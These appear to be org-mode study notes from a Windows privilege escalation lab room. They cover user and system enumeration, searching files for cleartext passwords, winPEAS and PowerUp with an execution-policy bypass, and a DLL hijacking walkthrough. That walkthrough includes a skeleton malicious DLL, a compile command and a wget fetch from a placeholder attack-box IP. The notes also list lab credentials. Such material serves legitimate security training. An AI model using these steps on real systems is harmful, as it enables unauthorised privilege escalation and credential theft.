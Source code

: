 #+title: windows privesc


* introduction

this room covers fundamental techniques that can be used to elevate privileges in a Windows environment.


During a penetration test or a CTF, you will often find that obtaining an initial foothold on the target system is relatively easy. The challenge often arises during the privilege escalation phase. While some techniques require extensive enumeration of the target system, you may occasionally see a vulnerable kernel (the program that manages the entire operating system - you can find more information on kernels here)  or a file containing cleartext passwords. Elevating your privileges may sometimes require you to chain two or more vulnerabilities. 


Windows systems have different user privilege levels. Accounts can belong to regular users, who would only have enough privileges to log into the system. Some user levels you will most commonly see are listed below:

   * Administrator (local): This is the user with the most privileges.
   * Standard (local): These users can access the computer but can only perform limited tasks. Typically these users can not make permanent or essential changes to the system. 
   * Guest: This account gives access to the system but is not defined as a user. 
   * Standard (domain): Active Directory allows organizations to manage user accounts. A standard domain account may have local administrator privileges. 
   * Administrator (domain): Could be considered as the most privileged user. It can edit, create, and delete other users throughout the organization's domain. 

You may see some sources refer to "SYSTEM" as a privileged account. It is worth noting that "SYSTEM" is not an account in the proper sense. Windows and its services use the "SYSTEM" account to perform their tasks. Services installed on a Windows target system can use service accounts and will have a certain level of privilege, depending on the service using them. Service accounts do not allow you to log in but can be leveraged in other ways for privilege escalation.


Windows allows the system administrator to group users to facilitate their management. Any user can be a member of the "Administrator" group, giving it administrator rights on the system. 


Typically, privilege escalation will require you to follow a methodology similar to the one given below: 

   1) Enumerate the current user's privileges and resources it can access.
   2) If the antivirus software allows it, run an automated enumeration script such as winPEAS or PowerUp.ps1
   3) If the initial enumeration and scripts do not uncover an obvious strategy, try a different approach (e.g. manually go over a checklist like the one provided here)

Relying on automated scripts, manually enumerating the target system or a hybrid approach, whichever road you take, carefully read the output you see on the screen. The solution to your privilege escalation problem will often be printed there; you need to see it.


Vulnerable machines in this room were configured using a slightly modified version of Sagi Shahar's LPE setup script.

* Information Gathering


To decide on the privilege escalation method that has the most chances to work, you must conduct a thorough enumeration process. While privilege escalation may require a certain degree of trial and error, it is better to limit these. During a penetration test, spraying all known privilege escalation techniques onto the target may result in connection issues or unwanted reboots.


This room will cover different privilege escalation methods that can be used depending on the information gathered during the enumeration process. Some manual techniques that can be used to collect information on the target system are covered here. In the following task, we will cover a few automated tools that will speed up this process and allow you to uncover potential privilege escalation vectors more easily. However, it is essential to remember that automated scripts and tools can miss some important vectors. The ability to perform manual enumeration is an important skill to have in your arsenal.


** User Enumeration

Other users that can access the target system can reveal interesting information. A user account named “Administrator” can allow you to gain higher privileges, or an account called “test” can have a default or easy to guess password. Listing all users present on the system and looking at how they are configured can provide interesting information.


The following commands will help us enumerate users and their privileges on the target system.

Current user’s privileges: whoami /priv

List users: net users

List details of a user: net user username (e.g. net user Administrator)

Other users logged in simultaneously: qwinsta (the query session command can be used the same way) 

User groups defined on the system: net localgroup

List members of a specific group: net localgroup groupname (e.g. net localgroup Administrators)


** Collecting system information

The systeminfo  command will return an overview of the target system. On some targets, the amount of data returned by this command can be overwhelming, so you can always grep the output as seen below:


systeminfo | findstr /B /C:"OS Name" /C:"OS Version"


In a corporate environment, the computer name can also provide some idea about what the system is used for or who the user is. The hostname command can be used for this purpose. Please remember that if you have proceeded according to a proper penetration testing methodology, you probably know the hostname at this stage.


** Searching files

Configuration files of software installed on the target system can sometimes provide us with cleartext passwords. On the other hand, some computer users have the unsafe habit of creating and using files to remember their passwords (e.g. passwords.txt). Finding these files can shorten your path to administrative rights or even easy access to other systems and software on the target network.


The findstr command can be used to find such files in a format similar to the one given below:


findstr /si password *.txt


Command breakdown:

findstr: Searches for patterns of text in files.

/si: Searches the current directory and all subdirectories (s), ignores upper case / lower case differences (i)

password: The command will search for the string “password” in files

*.txt: The search will cover files that have a .txt extension


The string and file extension can be changed according to your needs and the target environment, but “.txt”, “.xml”, “.ini”, “*.config”, and “.xls” are usually a good place to start.


** Patch level

Microsoft regularly releases updates and patches for Windows systems. A missing critical patch on the target system can be an easily exploitable ticket to privilege escalation. The command below can be used to list updates installed on the target system.

wmic qfe get Caption,Description,HotFixID,InstalledOn


WMIC is a command-line tool on Windows that provides an interface for Windows Management Instrumentation (WMI). WMI is used for management operations on Windows and is a powerful tool worth knowing. WMIC can provide more information than just installed patches. For example, it can be used to look for unquoted service path vulnerabilities we will see in later tasks. WMIC is deprecated in Windows 10, version 21H1 and the 21H1 semi-annual channel release of Windows Server. For newer Windows versions you will need to use the WMI PowerShell cmdlet. More information can be found [[https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/07-working-with-wmi?view=powershell-7.1][here]].


** Network Connections

According to the most widely accepted methodologies, by this stage of the penetration testing process, you should already have conducted a comprehensive scan on the target system. In some cases, we see that some services run locally on a system and can only be accessible locally. System Administrators that lack basic cyber security knowledge tend to be laxer when setting services that are only accessible over the system (e.g. only responding to requests sent to 127.0.0.1). As we have access to the target system, such services can provide a ticket to a higher privileged user.


The netstat command can be used to list all listening ports on the target system. The netstat -ano command will return an output similar to the one listed below:
Output of the Netstat Command

           
C:\Users\user\Desktop>netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       68
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1092
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1348
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1636
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2288
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       2468
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING       780
  TCP    0.0.0.0:49681          0.0.0.0:0              LISTENING       788

        


The command above can be broken down as follows;

    -a: Displays all active connections and listening ports on the target system.
    -n: Prevents name resolution. IP Addresses and ports are displayed with numbers instead of attempting to resolves names using DNS.
    -o: Displays the process ID using each listed connection.

Any port listed as “LISTENING” that was not discovered with the external port scan can present a potential local service.


If you uncover such a service, you can try port forwarding to connect and potentially exploit it. The port forwarding process will allow tunnelling your connection over the target system, allowing you to access ports and services that are unreachable from outside the target system. We will not cover port forwarding as it is beyond the scope of this room.


** Scheduled Tasks

Some tasks may be scheduled to run at predefined times. If they run with a privileged account (e.g. the System Administrator account) and the executable they run can be modified by the current user you have, an easy path for privilege escalation can be available.


The schtasks command can be used to query scheduled tasks.

schtasks /query /fo LIST /v


** Drivers

Drivers are additional software installed to allow the operating system to interact with an external device. Printers, web cameras, keyboards, and even USB memory sticks can need drivers to run. While operating system updates are usually made relatively regularly, drivers may not be updated as frequently. Listing available drivers on the target system can also present a privilege escalation vector. The driverquery command will list drivers installed on the target system. You will need to do some online research about the drivers listed and see if any presents a potential privilege escalation vulnerability.


** Antivirus

While you will seldom face an antivirus in CTF events, a real-world penetration testing engagement will often require you to deal with some form of antivirus. Various reasons will cause an antivirus to miss your shell access without you trying to evade it. For example, the antivirus software will not detect your presence if you have accessed the target system without using a trojan (e.g. using credentials and connect over RDP). However, to reach a higher privilege level, you may need to run scripts or other tools on the target system. It is, therefore, good practice to check if any antivirus is present.


Typically, you can take two approaches: looking for the antivirus specifically or listing all running services and checking which ones may belong to antivirus software.


The first approach may require some research beforehand to learn more about service names used by the antivirus software. For example, the default antivirus installed on Windows systems, Windows Defender’s service name is windefend. The query below will search for a service named “windefend” and return its current state.

sc query windefend


While the second approach will allow you to detect antivirus software without prior knowledge about its service name, the output may be overwhelming.

sc queryex type=service



You can connect to the target machine using RDP on your attacking machine or launching it directly from your browser.


(how to connect through RDP)

xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:IP_ADDRESS /u:USERNAME /p:'PASSWORD'

The credentials are as follows:

Username: user

Password: Password1


NOTE: The machine attached to this task is the same as the one used in task 4.

* Tools of the Trade

 Several scripts exist to conduct system enumeration in ways similar to the ones seen in the previous task. These tools can shorten the enumeration process time and uncover different potential privilege escalation vectors. However, please remember that automated tools can sometimes miss privilege escalation. While real penetration testing engagements may have targets where no known privilege escalation technique works, in CTFs, if the initial result does not return anything useful, try a different approach.


Below are a few tools commonly used to identify privilege escalation vectors.


** WinPEAS
WinPEAS is a script developed to enumerate the target system to uncover privilege escalation paths. You can find more information about winPEAS and download either the precompiled executable or a .bat script. Please note, Windows Defender detects and disables winPEAS. WinPEAS will run commands similar to the ones listed in the previous task and print their output. The output from winPEAS can be lengthy and sometimes difficult to read. This is why it would be good practice to always redirect the output to a file, as shown below:

winpeas.exe > outputfile.txt


WinPEAS can be downloaded [[https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS][here]].



** PowerUp


PowerUp is a PowerShell script that searches common privilege escalation on the target system. You can run it with the Invoke-AllChecks option that will perform all possible checks on the target system or use it to conduct specific checks (e.g. the Get-UnquotedService option to only look for potential unquoted service path vulnerabilities).


PowerUp can be downloaded [[https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc][here]].


Reminder: To run PowerUp on the target system, you may need to bypass the execution policy restrictions. To achieve this, you can launch PowerShell using the command below.


Running PowerUp.ps1 on the Target System

           
C:\Users\user\Desktop>powershell.exe -nop -exec bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\user\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\user\Desktop> Invoke-AllChecks

[*] Running Invoke-AllChecks


[*] Checking if user is in a local group with administrative privileges...

        


** Windows Exploit Suggester

Some exploit suggesting scripts (e.g. winPEAS) will require you to upload them to the target system and run them there. This may cause antivirus software to detect and delete them. To avoid making unnecessary noise that can attract attention, you may prefer to use Windows Exploit Suggester, which will run on your attacking machine (e.g. Kali or TryHackMe AttackBox).


Windows Exploit Suggester is a Python script that can be found and downloaded [[https://github.com/AonCyberLabs/Windows-Exploit-Suggester][here]]


Once installed, and before you use it, type the windows-exploit-suggester.py –update command to update the database. The script will refer to the database it creates to check for missing patches that can result in a vulnerability you can use to elevate your privileges on the target system.


To use the script, you will need to run the systeminfo command on the target system. Do not forget to direct the output to a .txt file you will need to move to your attacking machine.


Once this is done, windows-exploit-suggester.py can be run as follows;

windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt


A newer version of Windows Exploit Suggester is available [[https://github.com/AonCyberLabs/Windows-Exploit-Suggester][here]]. Depending on the version of the target system, using the newer version could be more efficient.


** Metasploit

If you already have a Meterpreter shell on the target system, you can use the multi/recon/local_exploit_suggester module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.


NOTE: These tools are available on AttackBox. Download them only if you are connecting over VPN. Tools you will most commonly use during privilege escalation are included in the zip file attached to this task. Some of these can be identified by antivirus software as malicious and be deleted when moved to your host computer. 


* Vulnerable Software

Software installed on the target system can present various privilege escalation opportunities. As with drivers, organizations and users may not update them as often as they update the operating system. You can use the wmic tool seen previously to list software installed on the target system and its versions. The command below will dump information it can gather on installed software.
wmic product

This output is not easy to read, and depending on the screen size over which you have access to the target system; it can seem impossible to find anything useful. You could filter the output to obtain a cleaner output with the command below.
wmic product get name,version,vendor

Be careful; due to some backward compatibility issues (e.g. software written for 32 bits systems running on 64 bits), the wmic product command may not return all installed programs. The target machine attached to this task will provide you with some hints. You will see shortcuts for installed software, and you will notice they do not appear in the results of the wmic product command. Therefore, It is worth checking running services using the command below to have a better understanding of the target system.

wmic service list brief

As the output of this command can be overwhelming, you can grep the output for running services by adding a findstr command as shown below.

wmic service list brief | findstr  "Running"

If you need more information on any service, you can simply use the sc qc command as seen below.
sc qc for more information on a service

           
C:\Users\user>sc qc RemoteMouseService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: RemoteMouseService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Remote Mouse\RemoteMouseService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : RemoteMouseService
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\user>

        


At this point, you have a few options to find any possible privilege escalation exploit that can be used against software installed on the target system.

   1) Searchsploit
   2) Metasploit
   3) Exploit-DB
   4) Github
   5) Google

Be careful using exploit code that is not verified or is part of the Metasploit framework, as it can contain malicious code that could affect your attacking system. Be sure you understand the exploit code well, go over any obfuscated parts, and have a good understanding of all commands the exploit code will attempt to run.

You can connect to the target machine using RDP on your attacking machine or launching it directly from your browser.


The credentials are as follows:

Username: user

Password: Password1


* DLL Hacking


 DLL hijacking is an effective technique that can allow you to inject code into an application. Some Windows executables will use Dynamic Link Libraries (DLLs) when running. We think of DLLs as files that store additional functions that support the main function of the .exe file. In a way, DLLs are executable files, but they can not be run directly like an exe file. They should be launched by other applications (or exe in most cases). If we can switch the legitimate DLL file with a specially crafted DLL file, our code will be run by the application. DLL hijacking requires an application (typically an exe file) that either has a missing DLL file, or where the search order can be used to insert the malicious DLL file.



** Introduction to DLL Files

Windows uses many DLL files, as you can see simply by visiting the C:\Windows\System32 folder in any Windows. A single DLL file can be used by many different exe files, or they can be dedicated to a single executable. You may have noticed these when installing an application on Windows. The screenshot below shows the contents of the 7-Zip file archiver folder in the installation path, under C:\Program Files\.






You will notice some file types are “application” while others (look for the .dll extension) are described as “application extension”. So when the application runs, it will “call” on these other files for different purposes. Any application can have its own DLL files but can also call on Windows DLL files.


Another point to keep in mind is that a missing DLL will not always result in an error. When launched, the application will look for DLL files it needs and, while a missing critical DLL file can stop the application from running, lesser important ones may not result in visible errors.


A DLL Hijacking scenario consists of replacing a legitimate DLL file with a malicious DLL file that will be called by the executable and run. By this point, you may have an idea about the specific conditions required for a successful DLL hijacking attack. These can be summarized as;

  1) An application that uses one or more DLL files.
  2) A way to manipulate these DLL files. 


Manipulating DLL files could mean replacing an existing file or creating a file in the location where the application is looking for it. To have a better idea of this, we need to know where applications look for DLL files. At this point, we will look to the DLL search order. Microsoft has a document on the subject located here.


In summary, for standard desktop applications, Windows will follow one of the orders listed below depending on if the SafeDllSearchMode is enabled or not.


If SafeDllSearchMode is enabled, the search order is as follows:

  1) The directory from which the application loaded.
     
  2) The system directory. Use the [[https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya][GetSystemDirectory]] function to get the path of this directory.
     
  3) The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
     
  4) The Windows directory. Use the [[https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya][GetWindowsDirectory]] function to get the path of this directory.
     
  5) The current directory.
     
  6) The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.

If SafeDllSearchMode is disabled, the search order is as follows:

  1) The directory from which the application loaded.
     
  2) The current directory.
     
  3) The system directory. Use the GetSystemDirectory function to get the path of this directory.
     
  4) The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
     
  5) The Windows directory. Use the GetWindowsDirectory function to get the path of this directory.
     
  6) The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.

For example, if our application.exe requires the app.dll file to run, it will look for the app.dll file first in the directory from which it is launched. If this does not return any match for app.dll, the search will continue in the above-specified order. If the user privileges we have on the system allow us to write to any folder in the search order, we can have a possible DLL hijacking vulnerability. An important note is that the application should not be able to find the legitimate DLL before our modified DLL.


This is the final element needed for a successful DLL Hijacking attack.



** Finding DLL Hijacking Vulnerabilities

Identifying DLL Hijacking vulnerabilities will require loading additional tools or scripts to the target system. Another approach could be to install the same application on a test system. However, this may not give accurate results due to version differences or target system configuration.


The tool you can use to find potential DLL hijacking vulnerabilities is Process Monitor (ProcMon). As ProcMon will require administrative privileges to work, this is not a vulnerability you can uncover on the target system. If you wish to check any software for potential DLL hijacking vulnerabilities, you will need to install the software on your test environment and conduct research there.


The screenshot below shows you what to look for in the ProcMon interface. You will see some entries resulted in “NAME NOT FOUND”.




The last two lines in the screenshot above show that dllhijackservice.exe is trying to launch hijackme.dll in the “C:\Temp” folder but can not find this file. This is a typical case of a missing DLL file.


The second step of the attack will consist of us creating this file in that specific location. It is important that we have write permissions for any folder we wish to use for DLL hijacking. In this case, the location is the Temp folder for which almost all users have write permissions; if this was a different folder, we would need to check the permissions.



** Creating the malicious DLL file


As mentioned earlier, DLL files are executable files. They will be run by the executable file, and the commands they contain will be executed. The DLL file we will create could be a reverse shell or an operating system command depending on what we want to achieve on the target system or based on configuration limitations. The example below is a skeleton DLL file you can adapt according to your needs.


Skeleton Code for the Malicious DLL

#+begin_src c

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
} 
#+end_src

Leaving aside the boilerplate parts, you can see this file will execute the whoami command (cmd.exe /k whoami) and save the output in a file called "dll.txt".


The mingw compiler can be used to generate the DLL file with the command given below:

x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll


You can easily install the Mingw compiler using the apt install gcc-mingw-w64-x86-64 command.


We have seen earlier that the application we target searches for a DLL named hijackme.dll. This is what our malicious DLL should be named.


You can copy the C code above given for the DLL file to the AttackBox or the operating system you are using and proceed with compiling.


Once compiled, we will need to move the hijackme.dll file to the Temp folder in our target system. You can use the following PowerShell command to download the .dll file to the target system: wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll






We will have to stop and start the dllsvc service again using the command below:

sc stop dllsvc & sc start dllsvc







You can connect to the target machine using RDP on your attacking machine or launching it directly from your browser.


The credentials are as follows:

Username: user

Password: Password1
